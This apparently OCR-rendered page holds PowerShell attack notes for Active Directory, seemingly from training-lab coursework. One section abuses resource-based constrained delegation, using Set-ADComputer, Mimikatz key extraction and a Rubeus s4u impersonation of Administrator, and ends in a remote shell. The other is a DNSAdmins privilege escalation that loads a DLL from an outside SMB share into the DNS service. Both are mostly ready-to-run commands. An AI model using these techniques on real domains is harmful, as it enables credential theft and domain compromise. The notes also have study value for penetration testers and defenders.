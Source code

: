 ### Resource-Based Constrained Delegation
```powershell
# Constrained delegation has some issues: it can be used to impersonate any user and access all services on the target server
# that's because it is confiugred on the "front-end" service
#
# Resource-based delegation changes this and moves the configuration to the "back-end" service
# An attribute on the back-end service is used: msDS-AllowedToActOnBehalfofOtherIdentity
# This attribute choose which user is able to delegate any other user and access the back-end service.

# Attack scenario
# it's possible to abuse Resource based constrained delegation if we have
# - write permission on the attribute msDS-AllowedToActOnBehalfofOtherIdentity (PrincipalAllowedtoDelegateToAccount) of the target service
# - control over an object with an SPN configured (like a domain joined machine, or a user with msDS-MachineAccountQuota != 0)

# An example: we are a user that has write access to a server dcorp-mgmt and has local admin on the StudentVM
# (Result found with Find-InterestingDomainAcl)
# Add the commputer account of StudentVM$ and StudentVM02$ as permitted to delegate on the target computer
$comps='StudentVM', 'StudentVM02'
Set-ADComputer -Identity dcorp-mgmt -PrincipalAllowedtoDelegateToAccount $comps

# extract AES key for the client computer account (StudentVM$)
Invoke-Mimikatz -Command '"kerberos::ptt sekurlsa::ekeys"'

# Use the AESkey pf studentVM$ machien acccount to access HTTP service on dcorp-mgmt as administrator
Rubeus s4u /user:studentVM$ /aes256:<computer_aes_key) /msdsspn:http/dcorp-mgmt /impersonateuser:Administrator /ptt

# Profit with WinRS session as adomain dministrator on dcorp-mgmt
winrs -r:dcorpm-mgmt cmd.exe
```

### DNSAdmins
```powershell
# This attack can be done to inject a library in the DNS plugins
# it can be done if the user is in the "DNS Admin" group and can restgart DNS service (usually it requires a manual misconfiguration)

# let's add the library to dns plugins from a shared folder to the targethostname
dnscmd targethostname /config /serverlevelplugindll \\172.16.0.10\myshare\library.dll

# Wiht powershell:
# Get current DNS settings
$dnsettings = Get-DnsServerSetting -ComputerName targethostname -Verbose -All
# Add the Dll to the settings
$dnsettings.ServerLevelPluginDll = "\\IP\share\library.dll"
# apply new settings
Set-DnsServerSetting -InputObject $dnsettings -ComputerName targethostname -Verbose

# Then restasrt the service
sc \\targethosotname stop dns
sc \\targethosotname start dns

```
